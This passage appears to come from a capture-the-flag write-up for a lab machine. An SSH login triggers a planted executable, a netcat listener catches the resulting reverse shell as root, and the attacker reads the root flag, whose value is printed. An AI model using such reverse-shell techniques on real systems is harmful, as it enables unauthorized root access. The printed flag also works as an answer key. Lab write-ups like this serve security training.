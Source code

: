 Triggering the executable with another ssh connection.

```
root\@lifesfun:\~\# ssh jkr\@10.10.10.138

jkr\@10.10.10.138's password:
```

Catching the reverse shell.

```
root\@lifesfun:\~\# nc -nvlp 443

listening on [any] 443 ...

connect to [10.10.15.99] from (UNKNOWN) [10.10.10.138] 48358

bash: cannot set terminal process group (2683): Inappropriate ioctl for device

bash: no job control in this shell
```

### Root Flag

```
root\@writeup:/\# cd /root

cd /root

root\@writeup:/root\# ls

ls

bin

root.txt

root\@writeup:/root\# cat root.txt

cat root.txt

eeba47f60b48ef92b734f9b6198d7226

root\@writeup:/root\#
```
